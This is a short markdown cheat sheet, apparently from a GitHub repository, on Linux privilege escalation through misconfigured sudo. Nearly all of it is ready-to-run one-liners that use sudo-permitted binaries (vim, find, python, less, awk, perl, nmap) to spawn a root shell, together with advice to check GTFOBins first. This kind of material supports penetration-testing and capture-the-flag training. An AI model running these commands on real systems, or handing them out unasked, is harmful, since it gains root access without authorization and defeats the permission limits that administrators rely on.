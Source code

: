 # Linux Privilege Escalation


---

## Priority 1: Check sudo (FIRST THING TO DO!)

### The Most Common Privesc Path

```bash
# Check sudo permissions
sudo -l
```

**If you see NOPASSWD with ANY binary:**

1. Go to https://gtfobins.github.io/
2. Search for that binary
3. Follow the sudo section

### Common Exploitable sudo Binaries

**vim:**
```bash
sudo vim -c ':!/bin/sh'
```

**find:**
```bash
sudo find . -exec /bin/sh \; -quit
```

**python/python3:**
```bash
sudo python -c 'import os; os.system("/bin/sh")'
sudo python3 -c 'import os; os.system("/bin/sh")'
```

**less/more:**
```bash
sudo less /etc/hosts
# Then type: !/bin/sh
```

**awk:**
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

**perl:**
```bash
sudo perl -e 'exec "/bin/sh";'
```

**nmap (old versions):**
```bash
echo "os.execute('/bin/sh')" > shell.nse
sudo nmap --script=shell.nse
```
